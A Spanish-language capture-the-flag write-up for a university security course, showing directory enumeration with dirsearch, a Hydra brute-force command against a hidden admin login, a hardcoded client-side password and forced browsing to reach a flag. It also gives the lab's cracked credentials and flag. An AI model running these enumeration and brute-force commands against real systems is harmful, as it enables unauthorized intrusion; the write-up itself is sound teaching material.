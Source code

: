 # Writeup P1 Tarea 2

**Nombre**: Valentina Rojas Osorio

**Equipo**: Hack Pals

# Desarrollo 
 _Para la solución de este problema, se está obviando la **instalación** de herramientas vistas durante el curso, sin embargo, se especifica detalladamente cómo utilizarlas en cada paso. También se especifican usos e instalación de herramientas externas (no vistas)._
 
 _Además, se debe estar conectado a la VPN del CEC, para tener acceso al servidor 172.17.69.241_

---

 Comenzamos con un mensaje de la página que nos dice que no tenemos acceso a ella, lo que implica que tenemos que "ingresar" de alguna manera.

1. Procedemos a buscar información sobre directorios a los que podamos acceder en el servidor (directorios con código de respuesta 200) con la herramienta [dirsearch](https://www.kali.org/tools/dirsearch/). Una vez completada la instalación, abrimos una consola en linux y ejecutamos
    ```
    $ dirsearch -u 172.17.69.241:8081
    ```

1. Encontramos los siguientes directorios:
    ```
    200  1KB  /access_log
    200  874B /favicon.ico
    ```
    Descartamos el favicon.ico, por lo tanto vamos al primer directorio.


1. Aqui encontraremos lo que parecen ser request de tipo GET con response code 400, excepto 
    ```
    /mySuperSecretHiddenLogin.php
    ```
     que tiene response code 200 y un nombre muy sospechoso. 

## Formulario 1: /mySuperSecretHiddenLogin.php

Al dirigirnos a http://172.17.69.241:8081/mySuperSecretHiddenLogin.php nos encontramos un _form_ que solicita Username y Password.

1. Al escribir cualquier _password_ equivocada, la página nos arroja el mensaje "Error". 

1. Si inspeccionamos la página, en el _form_ vemos que el campo de input de Username tiene _name_ username y _value_ admin, y el input de Password tiene name _password_. 

1. Atacamos con fuerza bruta para obtener la Password con la herramienta [Hydra](https://github.com/vanhauser-thc/thc-hydra), abrimos una consola y ejecutamos

    ```
    hydra -l admin -P /home/kali/Desktop/passwords.txt -u -s 8081 172.17.69.241 http-post-form "/mySuperSecretHiddenLogin.php:username=admin&password=^PASS^:Error"
    ```
* _passwords.txt es un archivo de claves que tenemos en el escritorio de kali_

1. Finalmente, hydra nos arroja las credenciales

    ```
    login: admin password: password1
    ```

## Formulario 2: /password2.php

Una vez logeados como admin, el servidor nos redirigue a http://172.17.69.241:8081/password2.php

1. Al inspeccionar esta página, tenemos otro formulario y notamos que el botón Enter ejecuta una función al hacer click. Esta función se encuentra en el script de la página y es de la forma
    ```js
    <script>
		function checkSecondPassword() {
			var secondPassword = document.getElementById("secondPassword").value;
			if (secondPassword == 'XGQq8aPtvCDAaxPxuFV4aw2uAVvLt5mjRAmyCaCR4QNQm55D7V') {
                document.location = '/mySuperSecretHiddenHome.php';
                } 
            else { document.location = '/';
			}
		}
    </script>    
    ```
    Esta función nos dice que si la secondPassword es 
    ```
    XGQq8aPtvCDAaxPxuFV4aw2uAVvLt5mjRAmyCaCR4QNQm55D7V
    ```
    entonces nos redirige a /mySuperSecretHiddenHome.php


1. Si ingresamos la secondPassword al formulario y damos click en Enter, el servidor no hace nada, por lo tanto nos vamos a la url http://172.17.69.241:8081//mySuperSecretHiddenHome.php a la "fuerza".

1. La página indica que encontramos la flag, pero los corchetes están vacíos, por lo que nuevamente inspeccionamos la página y encontramos que la Flag está escondida en el atributo _alt_ de la imagen.


# Resultados

La flag de este problema es 

        CC5325{my5up3253c237h1dd3nf149}

##

![secret-login.php](./mySuperSecretHiddenLogin.PNG)
    
